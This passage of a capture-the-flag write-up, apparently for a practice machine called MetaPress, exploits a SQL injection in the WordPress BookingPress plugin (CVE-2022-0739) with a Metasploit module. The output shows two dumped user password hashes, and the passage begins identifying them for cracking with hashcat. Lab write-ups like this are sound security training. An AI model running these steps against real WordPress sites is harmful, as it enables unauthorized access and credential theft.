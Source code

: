 #### Alternative Method

We can search the metasploit database for the CVE:

```
msf6 > search cve:2022-0739

Matching Modules
================

   #  Name                                                     Disclosure Date  Rank    Check  Description
   -  ----                                                     ---------------  ----    -----  -----------
   0  auxiliary/gather/wp_bookingpress_category_services_sqli  2022-02-28       normal  Yes    Wordpress BookingPress bookingpress_front_get_category_services SQLi
```

Run the metasploit module:
```
msf6 > use gather/wp_bookingpress_category_services_sqli
msf6 auxiliary(gather/wp_bookingpress_category_services_sqli) > set rhosts metapress.htb
msf6 auxiliary(gather/wp_bookingpress_category_services_sqli) > set TARGETURI /events/
msf6 auxiliary(gather/wp_bookingpress_category_services_sqli) > run
[*] Running module against 10.10.11.186

[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Extracting credential information
Wordpress User Credentials
==========================

 Username  Email                  Hash
 --------  -----                  ----
 admin     admin@metapress.htb    $P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.
 manager   manager@metapress.htb  $P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70

[*] Auxiliary module execution completed
```

### Cracking the Hashes

Let's crack the dumped hashes with `hashcat`. First we need to identify which hash type these are:

```shell
$ hashid '$P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70'
Analyzing '$P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70'
[+] Wordpress ≥ v2.6.2 
[+] Joomla ≥ v2.5.18 
[+] PHPass' Portable Hash 
```

Let's check this against hashcat's hash table:

```shell
$ hashcat -h | egrep -i 'wordpress|joomla|phpass'
    400 | phpass   | Generic KDF
```
